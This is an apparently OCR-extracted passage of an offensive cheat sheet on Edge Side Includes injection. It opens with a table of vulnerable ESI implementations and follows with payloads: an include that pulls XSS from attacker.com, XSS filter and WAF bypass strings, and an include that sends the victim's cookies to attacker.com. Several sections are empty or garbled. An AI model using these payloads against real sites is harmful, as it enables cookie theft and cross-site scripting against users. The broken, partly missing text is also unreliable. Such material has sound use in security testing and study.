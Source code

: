 ```
|            Fastly            |     Yes      |    No    |     No      |              No               |        Yes         |
| Akamai ESI Test Server (ETS) |     Yes      |   Yes    |     Yes     |              No               |         No         |
|          NodeJS esi          |     Yes      |   Yes    |     Yes     |              No               |         No         |
|        NodeJS nodesi         |     Yes      |    No    |     No      |              No               |      Optional      |

#### XSS

The following ESI directive will load an arbitrary file inside the response of the server

```xml
<esi:include src=http://attacker.com/xss.html>
```
```
#### Bypass client XSS protection

```xml
x=>alert(/Chrome%20XSS%20filter%20bypass/);</s>

Use  to bypass WAFs:
<script>alert(1)</script>
<img+src=x+onerror=alert(1)>
```
```
#### Steal Cookie

- Remote steal cookie

```xml
<esi:include src=http://attacker.com/$(HTTP_COOKIE)>

```
```
- Steal cookie HTTP_ONLY with XSS by reflecting it in the response:

```bash
# This will reflect the cookies in the response

# Reflect XSS (you can put '"><svg/onload=prompt(1)>' URL encoded and the URL encode eveyrhitng to send it in the HTTP request)


# It's possible to put more complex JS code to steal cookies or perform actions
```
```
#### Private Local File

Do not confuse this with a "Local File Inclusion":

```html
<esi:include src="secret.txt">
```
```
#### CRLF

```html

```
```
#### Open Redirect

The following will add a `Location` header to the response

```bash
```